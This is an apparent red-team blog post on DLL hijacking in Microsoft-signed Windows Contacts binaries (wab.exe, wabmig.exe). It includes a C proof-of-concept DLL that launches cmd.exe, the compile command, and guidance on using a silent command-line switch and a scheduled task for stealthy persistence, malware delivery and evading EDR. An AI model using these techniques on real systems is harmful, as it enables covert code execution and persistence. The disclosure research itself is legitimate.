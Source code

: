 ```yaml
---
title: "DLL Hijacks in Windows Contacts"
date: 2024-03-18T02:08:42Z
draft: true
tags: ["notes research"]
---
```


![Alt text](images/image-3.png)

## WAB!

Recently when looking for some bugs to leverage red teaming, I found the following Windows binaries load several libraries from the application directory. Note that these files are also digitally signed by Microsoft. 

1. `C:\Program Files\Windows Mail\wabmig.exe`
2. `C:\Program Files\Windows Mail\wab.exe`

Attackers can leverage this behavior to perform DLL hijacking / proxying attacks and obtain code execution on a target system, establish persistence and/or distribute malware. 

Sigcheck output:
```
PS C:\Program Files\Windows Mail> sigcheck .\wab.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Windows Mail\wab.exe:
        Verified:       Signed
        Signing date:   2:52 AM 2/2/2024
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Windows Contacts
        Product:        Microsoft� Windows� Operating System
        Prod version:   10.0.19041.3636
        File version:   10.0.19041.3636 (WinBuild.160101.0800)
        MachineType:    64-bit
```

### Vanilla DLL Hijack PoC

1. Create a file named "test.c" wherever you want, containing a DLL PoC, e.g.:
```c
#pragma once
#include <windows.h>
#include <WinUser.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"TEST", L"TEST", MB_OK);
        system("cmd.exe");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

2. Open the Developer Command Prompt and navigate to the directory test.c was saved to
3. Compile test.c into msftedit.dll using the following command:
`cl /LD test.c /Fe:msftedit.dll User32.lib`
4. Copy `wab.exe` and/or `wabmig.exe` to the same directory as the new `msftedit.dll`
4. Execute wab.exe / wabmig.exe
5. Note the messagebox displaying "TEST", followed by a Command Prompt window indicating the malicious `msftedit.dll` file has been loaded by the application.

![Alt text](images/image-2.png)

As this is an application directory hijack, it is possible to host the vulnerable applications and DLLs on remote file shares, or within ISO containers to perform hijacking attacks. This is pretty sweet as it allows malware delivery options that leverage signed MS bins :) Sadly signing isn't respected from UNC paths.

Additionally, running the wab.exe application with the `/SyncLogonPicture` CLI switch avoids creating a GUI window, allowing for a stealthier form of execution-- one that's suitable for persistence.

## Disclosure

I reported this out to MS as a CWD hijack initially-- according to their [DLL planting triage](https://msrc.microsoft.com/blog/2018/04/triaging-a-dll-planting-vulnerability/) post this seemed to fit the bill for a CWD. Opening an associated file type like `.contact` didn't cause the behavior though, so I came to the realize it's what they'd consider to be an application hijack. As far as MS is concerened, this warrants *no fix at all* and a severity rating of `none`.

![alt text](images/ms-response.png)

Better luck next time, I guess!

## So is this even useful?

In terms of initial access... maaaybeeee. For persistence? Yes and there are a couple use cases I can immediately apply. 

Due to the presence of a few undocumented CLI switches it's possible to launch wab/mig, and their corresponding DLL hijacks, without opening any windows. As mentioned previously, the `/SyncLogonPicture` switch does... *something*, and runs silently, which means a scheduled task like the following looks pretty innocuous, no?

![alt text](images/scheduled_task.png)

Placing a malicious `msftedit.dll` in `C:\Program Files\Windows Mail\` means every time this task is run, your payload runs too :) Sure, that requires you have local admin, womp womp, but another option would be to just copy `wab.exe` somewhere else, maybe `%appdata%`, and do the same thing. Place the DLL, make the task.

You might think: 

    "why don't you just run an exe if you can place something on disk?" 

You could definitely do that, but in the land age of telemetry, reducing *any footprint* is potentially useful. Running a Microsoft *signed* executable shouldn't set off any alarms immediately, which in turn might help prevent high fidelity detections. A scheduled task that also **seems relevant** to what the signed binary is actually doing may further disguise this persistence mechanism, and blue teams may not (hopefully) identify the true malicious nature of the task, deferring to it's apparent legitimacy.

Anyway, lots of cheeky ways of going about this, some more useful than others. I'll take anything to keep the EDR at bay during ops, though!
